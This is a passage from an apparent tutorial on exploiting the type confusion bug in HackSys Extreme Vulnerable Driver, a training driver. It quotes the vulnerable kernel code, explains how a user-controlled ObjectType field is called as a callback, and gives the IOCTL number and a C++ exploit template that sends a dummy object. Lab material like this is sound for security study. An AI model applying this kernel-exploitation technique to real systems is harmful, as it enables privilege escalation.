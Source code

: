 ```cpp
NTSTATUS TriggerTypeConfusion(_In_ PUSER_TYPE_CONFUSION_OBJECT UserTypeConfusionObject) {
    ...
    KernelTypeConfusionObject = (PKERNEL_TYPE_CONFUSION_OBJECT)ExAllocatePoolWithTag(
            NonPagedPool,
            sizeof(KERNEL_TYPE_CONFUSION_OBJECT),
            (ULONG)POOL_TAG
    );
    KernelTypeConfusionObject->ObjectID = UserTypeConfusionObject->ObjectID;
    KernelTypeConfusionObject->ObjectType = UserTypeConfusionObject->ObjectType;
    ...
    Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
    ...
}
```

The TypeConfusionObjectInitializer function is then going ahead and calling the callback function. This function has however the same value as the ObjectType which we provided in the user object. This means that this function will call whatever function pointer we place in the ObjectType field.

```cpp
NTSTATUS TypeConfusionObjectInitializer(_In_ PKERNEL_TYPE_CONFUSION_OBJECT KernelTypeConfusionObject) {
    NTSTATUS Status = STATUS_SUCCESS;
    KernelTypeConfusionObject->Callback();
    return Status;
}
```

The IOCTL number for this call is `0x222023`, which can be found in a similar way to the last post.

## Exploitation

We start by writing a simple exploit template that defines the required structure, gets a handle to the driver, and calls the IOCTL with a dummy value:

```cpp
#include <stdio.h>
#include <Windows.h>

typedef struct _UserObject {
    ULONG_PTR ObjectID;
    ULONG_PTR ObjectType;
} UserObject;

int main() {
    HANDLE hDriver = CreateFile(L"\\\\.\\HacksysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        exit(1);
    }

    UserObject userObject = { 0 };
    userObject.ObjectID =   (ULONG_PTR)0x4141414141414141;
    userObject.ObjectType = (ULONG_PTR)0x4242424242424242;

    DeviceIoControl(hDriver, 0x222023, (LPVOID)&userObject, sizeof(userObject), NULL, 0, NULL, NULL);
    
    return 0;
}
```
